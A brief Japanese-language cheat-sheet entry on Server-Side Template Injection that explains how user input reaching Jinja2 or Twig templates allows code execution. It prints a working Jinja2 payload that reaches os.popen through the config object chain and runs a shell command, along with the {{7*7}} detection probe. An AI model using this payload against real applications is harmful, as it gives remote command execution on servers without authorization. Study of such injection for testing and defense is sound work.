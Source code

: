 # Server-Side Template Injection (SSTI)
テンプレートエンジン(Jinja2, Twigなど)にユーザ入力が直接渡るとテンプレート構文でコード実行が可能

## 実践例: Jinja2 SSTI
```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

## よくある形式

- `{{ 7*7 }}` -> `49`が返ってくるかどうかでSSTI判定する
- Pythonオブジェクトチェーンで`os.popen`に到達
- Flaskアプリで`render_template_string()`が使われているケースが多い
